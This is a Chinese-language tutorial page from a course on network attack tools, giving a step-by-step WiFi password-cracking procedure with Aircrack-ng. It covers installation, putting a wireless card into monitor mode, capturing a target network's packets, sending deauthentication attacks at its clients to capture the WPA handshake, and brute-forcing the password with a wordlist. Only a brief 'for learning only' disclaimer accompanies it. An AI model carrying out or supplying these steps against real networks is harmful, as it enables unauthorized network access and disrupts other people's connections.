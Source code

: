## 网络安全与攻击工具

本课程主要面对具有一定计算机基础和攻防兴趣的学员。课程主要介绍常用的网络安全工具等。

## 1. WIFI破解

> 请勿用于恶意攻击，仅限学习使用，否则后果自负

![img](https://aceld.gitbooks.io/attack-tool/content/%E5%AE%89%E5%85%A841-wifi03.png)

### WIFI破解原理

![img](https://aceld.gitbooks.io/attack-tool/content/%E5%AE%89%E5%85%A841-wifi04.png)

### 1.1 wifi破解工具下载和安装

#### Aircrack-ng

##### 下载

```
http://www.aircrack-ng.org/ 
http://www.aircrack-ng.org/downloads.html
wget http://download.aircrack-ng.org/aircrack-ng-1.2-rc2.tar.gz
```

##### 安装

如果是linux-Ubuntu

```
sudo apt-get install build-essential libssl-dev pkg-config libnl-3-dev libnl-genl-3-dev 
tar zxvf aircrack-ng-1.2-rc2.tar.gz
cd aircrack-ng-1.2-rc2
```

```
make

sudo make install
```

##### **kali-linux** 操作系统

**官方网站：**

[http://www.kali.org](http://www.kali.org/)

![img](https://aceld.gitbooks.io/attack-tool/content/%E5%AE%89%E5%85%A840-wifi01.png)

**中文论坛：**

[http://www.kali.org.cn](http://www.kali.org.cn/)

### 1.2 wifi 破解过程

**（1）. 关闭网络管理器，为了防止干扰**

```
service  network-manager stop
```

```
airmon-ng check kill
```

**（2）. 查看本机电脑的无线网卡**

```
ifconfig
```

或者

```
iwconfig

```

**（3）. 激活网卡为监听（monitor）模式**

```
airmon-ng start wlan0
```

得到监控模式下的设备名是mon0 有的可能是wlan0mon，请记住这个名字

**（4）. 探测周围无线网络**

```
airodump-ng wlan0mon
```

**（5）. 专门监听目标wifi，抓取目标的数据包（始终运行）**

```
airodump-ng --bssid mac地址 -c 频道号 –w cap文件名 wlan0mon

```

**（6）. 模拟目标wifi，想可信客户端发起断链攻击**

```
aireplay-ng -0 1 –a 目标wifi的mac -c 客户端的mac wlan0mon

```

攻击成功,airodump-ng捕获handshake ,此时可以ctrl+c终止airodump-ng抓包。

![img](https://aceld.gitbooks.io/attack-tool/content/%E5%AE%89%E5%85%A841-wifi05.png)

**（7）. 通过字典暴力破解捕获到的加密密码**

```
aircrack-ng -w 密码字典 捕获的cap文件

```

**（8）. 破解成功，恢复网络环境**

```
service  network-manager start
```